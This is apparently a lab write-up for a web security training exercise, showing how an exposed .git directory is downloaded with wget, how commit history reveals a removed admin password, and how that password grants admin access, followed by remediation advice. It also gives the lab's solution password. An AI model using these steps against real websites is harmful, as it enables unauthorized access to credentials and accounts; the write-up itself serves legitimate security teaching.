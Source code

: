 # Information Disclosure in Version Control History

**Difficulty:** `PRACTITIONER` | **Category:** `Information Disclosure`

---

## 🎯 Lab Goal

Obtain the administrator password from version control history, log in to the admin panel, and delete the user "carlos".

---

## 📋 Lab Description

This lab discloses sensitive information through its version control history. The goal is to exploit this to obtain the administrator's password.

---

## 🔎 Reconnaissance

### Initial Enumeration

1. **Checked page source** → Nothing interesting
2. **Checked `/robots.txt`** → No useful information

### Git Directory Discovery

Attempted to access `/.git` directory:

```
https://[lab-id].web-security-academy.net/.git
```

**Result:** Successfully found an exposed `.git` directory with full repository structure!

```
Index of /.git
Name              Size
<branches>
description       73B
<hooks>
<info>
<refs>
HEAD              23B
config            157B
<objects>
index             225B
COMMIT_EDITMSG    34B
<logs>
```

---

## 🧪 Testing & Exploitation

### Step 1: Clone the Repository

Used `wget` to recursively download the entire `.git` repository:

```bash
wget -r https://[lab-id].web-security-academy.net/.git
```

### Step 2: Navigate to Downloaded Repository

```bash
cd [lab-id].web-security-academy.net/.git
ls
```

**Output:**
```
COMMIT_EDITMSG  config  description  HEAD  hooks  index  
index.html  info  logs  objects  refs
```

### Step 3: Examine Commit History

Viewed the Git logs to find suspicious commits:

```bash
cat logs/HEAD
```

**Output:**
```
0000000000000000000000000000000000000000 da081537479ece823870c88aff72a6946fa6fa38 Carlos Montoya <carlos@carlos-montoya.net> 1753553909 +0000   commit (initial): Add skeleton admin panel

da081537479ece823870c88aff72a6946fa6fa38 c4feaf7fbeadd37bfd3d79c37b33089c09fa150e Carlos Montoya <carlos@carlos-montoya.net> 1753553909 +0000   commit: Remove admin password from config
```

🚨 **Suspicious commit found:** "Remove admin password from config"

### Step 4: Inspect the Suspicious Commit

Used `git show` to view the changes in that commit:

```bash
git show c4feaf7fbeadd37bfd3d79c37b33089c09fa150e
```

**Output:**
```diff
commit c4feaf7fbeadd37bfd3d79c37b33089c09fa150e (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index 0754869..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=mne5xocl1f8pkb7uql9f
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

💎 **Password discovered:** `mne5xocl1f8pkb7uql9f`

### Step 5: Admin Access

Logged in using the discovered credentials:

| Field | Value |
|-------|-------|
| Username | `administrator` |
| Password | `mne5xocl1f8pkb7uql9f` |

Successfully accessed admin panel and deleted user "carlos".

---

## 🚩 Solution

**Password:** `mne5xocl1f8pkb7uql9f`

---

## 💡 Key Takeaways

### Git History is Permanent
- Even "removed" data remains in Git history
- Developers often commit secrets then try to remove them
- The damage is already done once committed

### Common Mistakes
- Hard-coding credentials in config files
- Committing secrets "temporarily"
- Thinking deletion removes them from history
- Not using `.gitignore` properly

### Attack Vector
Exposed `.git` directories allow attackers to:
- Download entire repository history
- View all commits and changes
- Extract deleted sensitive data
- Analyze code for vulnerabilities

### Automated Tools
- **git-dumper**: Downloads exposed Git repositories
- **GitTools**: Suite of tools for Git exploitation
- **truffleHog**: Searches Git history for secrets

---

## 🛡️ Remediation

### Prevent Git Exposure

**Apache:**
```apache
<DirectoryMatch "^/.*/\.git/">
    Require all denied
</DirectoryMatch>
```

**Nginx:**
```nginx
location ~ /\.git {
    deny all;
}
```

### Handle Committed Secrets

If secrets were committed:
1. **Rotate all exposed credentials immediately**
2. Use `git-filter-branch` or `BFG Repo-Cleaner` to remove from history
3. Force push to remote (if applicable)
4. Notify security team

### Best Practices

- ✅ Use **environment variables** for secrets
- ✅ Implement **secret management systems** (HashiCorp Vault, AWS Secrets Manager)
- ✅ Configure proper `.gitignore` files
- ✅ Use **pre-commit hooks** to scan for secrets
- ✅ Enable **Git Guardian** or similar secret scanning
- ✅ Never commit secrets, even temporarily
- ✅ Regular security audits of repositories

---

**Status:** ✅ Solved
